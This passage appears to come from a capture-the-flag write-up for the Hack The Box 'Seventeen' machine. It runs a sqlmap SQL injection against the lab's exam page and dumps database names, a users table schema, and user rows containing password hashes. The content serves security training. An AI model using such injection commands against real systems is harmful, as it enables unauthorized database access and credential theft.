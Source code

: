 We could try the RCE one, but we don't have any credentials. As such, we can grab the SQL Injection one first. Following the PoC, we have to run this command:

```bash
sqlmap -u 'http://exam.seventeen.htb?p=take_exam&id=1' -p id --dbs --level 3
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
```

Success! This works and we can try to dump the database. Using `sqlmap`, we can slowly enumerate the database:

```
Database: erms_db
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+
Table: users
[10 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| avatar       | text         |
| date_added   | datetime     |
| date_updated | datetime     |
| firstname    | varchar(250) |
| id           | int(50)      |
| last_login   | datetime     |
| lastname     | varchar(250) |
| password     | text         |
| type         | tinyint(1)   |
| username     | text         |
+--------------+--------------+
Database: erms_db
Table: users
[3 entries]
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
| 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
| 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
```
